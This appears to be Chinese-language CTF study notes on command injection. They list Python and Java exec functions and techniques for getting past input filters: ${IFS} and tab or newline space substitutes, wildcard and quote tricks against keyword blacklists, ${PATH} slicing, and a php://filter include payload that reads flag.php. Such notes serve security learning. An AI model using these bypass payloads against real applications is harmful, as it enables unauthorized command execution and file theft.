 python：

- system
- popen
- subprocess.call
- spawn

java：

- java.lang.Runtime.getRuntime().exec(command)

  

### 一些bypass

1. 空格：

   - %09(tab)、%20(space)、%0a(换行)、\t

   - $9(url编码下$9为linuxshell进程的第九个参数，始终为空字符)

   - ${IFS}、$IFS$9、$IFS%09

   - <>、< （如cat<123）（输出、输出重定向）
     ( 利用输出作为输入：?a=flag.php -> ?a={ls,-l} )

     

2. 黑名单：

   - 通配符：

     - `*`0到无穷个任意字符
     - `?` 一个任意字符
     - `[ ]` 一个在括号内的字符，e.g. `[abcd]`
     - `[ - ]` 在编码顺序内的所有字符
     - `[^ ]` 一个不在括号内的字符

   - 夹杂字符：引号：(''、""、``) 、${x}、$1、转义字符\

   - `${}`:
     会识别包含的第一个字符，只要将第一个字符修改为如空格，tab，注释，回车就会避免被直接当成变量，而将其执行为PHP代码

     ps:在被“”包裹时候直接${}是不可以的，因为PHP将会将它识别为可变变量而不是一个PHP代码

     

3. 利用`系统变量`切片构造命令：
   	如/ = ${PATH:0:1} = /bin/xxx[0]



4. 过滤分号`;`

   - 可以用`?>`闭合<?php
     如：include%0a$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
   - 假如函数为system()这些命令执行函数，且输出会被重定向到/dev/null这种不可访问的地方
     可以用`;`来绕过，若过滤了分号可以用`%0a`(换行) 或者 &、|这些命令分隔符

   

5. 黑名单绕过

   - `a=l;b=s;$a$b`
